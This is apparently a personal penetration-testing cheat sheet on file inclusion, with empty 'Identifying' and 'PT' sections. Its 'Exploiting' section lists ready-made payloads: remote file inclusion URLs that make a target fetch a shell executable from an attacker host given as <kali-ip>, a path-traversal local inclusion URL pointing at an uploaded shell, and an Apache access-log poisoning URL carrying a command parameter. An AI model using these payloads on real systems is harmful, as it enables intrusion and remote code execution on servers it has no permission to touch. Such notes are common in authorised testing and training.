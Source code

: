#### Identifying
```

```

#### Exploiting
##### RFI
```
#Check whether you can request a file from a remote server.
1. http://example.com/file.php?file=http://<kali-ip>/myshell.exe
2. http://example.com/file.php?file=//<kali-ip>/kali/myshell.exe
```
##### LFI
```
#Check whether we can execute local files. Is there a way to upload prior perhaps?
1. http://example.com/file.php?file=/../../../var/www/html/myshell.exe

#Check whether we can poison log files.
	#Apache
	1. http://example.com/file.php?file=../..//xampp/apache/logs/access.log&cmd=dir
```
##### PT
```

```
